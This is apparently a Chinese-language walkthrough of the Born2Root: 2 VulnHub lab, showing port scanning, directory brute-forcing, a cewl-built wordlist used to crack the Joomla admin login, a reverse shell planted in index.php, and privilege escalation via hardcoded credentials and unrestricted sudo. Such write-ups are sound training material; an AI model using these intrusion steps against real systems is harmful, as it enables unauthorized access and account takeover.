






# Born2Root: 2

> https://download.vulnhub.com/born2root/Born2rootv2.ova

靶场IP：`192.168.32.18`

扫描对外端口服务

```
┌──(root㉿kali)-[~]
└─# nmap -sV -p1-65535 192.168.32.18
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-13 00:09 EDT
Nmap scan report for 192.168.32.18
Host is up (0.00012s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
111/tcp   open  rpcbind 2-4 (RPC #100000)
55052/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:FC:25:B6 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.44 seconds

```

浏览器访问80端口


爆破目录

```
┌──(root㉿kali)-[~]
└─# dirb http://192.168.32.18/ 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Sep 13 00:10:53 2022
URL_BASE: http://192.168.32.18/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.32.18/ ----
==> DIRECTORY: http://192.168.32.18/css/                                                                                                                                                                                                  
==> DIRECTORY: http://192.168.32.18/img/                                                                                                                                                                                                  
+ http://192.168.32.18/index.html (CODE:200|SIZE:8454)                                                                                                                                                                                    
==> DIRECTORY: http://192.168.32.18/javascript/                                                                                                                                                                                           
==> DIRECTORY: http://192.168.32.18/joomla/                                                                                                                                                                                               
==> DIRECTORY: http://192.168.32.18/js/                                                                                                                                                                                                   
+ http://192.168.32.18/LICENSE (CODE:200|SIZE:1093)                                                                                                                                                                                       
==> DIRECTORY: http://192.168.32.18/manual/                                                                                                                                                                                               
+ http://192.168.32.18/server-status (CODE:403|SIZE:301)                                                                                                                                                                                  
==> DIRECTORY: http://192.168.32.18/vendor/     
```

访问：`/joomla/`



使用cewl生成密码字典

```
┌──(root㉿kali)-[/tmp]
└─# cewl http://192.168.32.18/joomla/ > password
```

爆破密码



爆破成功

```
Username: admin
Password: travel
```


登录后台



编辑 index.php 后，单击"保存"按钮保存文件。现在我们已经成功地将 index.php 替换为我们的反向 shell 脚本。现在，剩下要做的就是运行 index.php。现在要获得会话，我们需要一个侦听器，我们将在其中获得反向 shell。我们将使用 netcat 创建一个监听器，如下图所示。





发现：`fileshare.py`，找出账号和密码：`tim/lulzlol`

```
www-data@born2root:/$ cd /opt
cd /opt
www-data@born2root:/opt$ ls
ls
scripts
www-data@born2root:/opt$ cd scripts
cd scripts
www-data@born2root:/opt/scripts$ ls
ls
fileshare.py
www-data@born2root:/opt/scripts$ cat fileshare.py
cat fileshare.py
#!/usr/bin/env python

import sys, paramiko

if len(sys.argv) < 5:
    print "args missing"
    sys.exit(1)

hostname = "localhost"
password = "lulzlol"
source = "/var/www/html/joomla"
dest = "/tmp/backup/joomla"

username = "tim"
port = 22

try:
    t = paramiko.Transport((hostname, port))
    t.connect(username=username, password=password)
    sftp = paramiko.SFTPClient.from_transport(t)
    sftp.get(source, dest)

finally:
    t.close()

```

切换到`tim`用户

```
www-data@born2root:/opt/scripts$ su tim
su tim
Password: lulzlol
```

查看sudo列表

```
tim@born2root:/opt/scripts$ sudo -l
sudo -l
[sudo] password for tim: lulzlol

Matching Defaults entries for tim on born2root:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tim may run the following commands on born2root:
    (ALL : ALL) ALL

```

切换到root用户

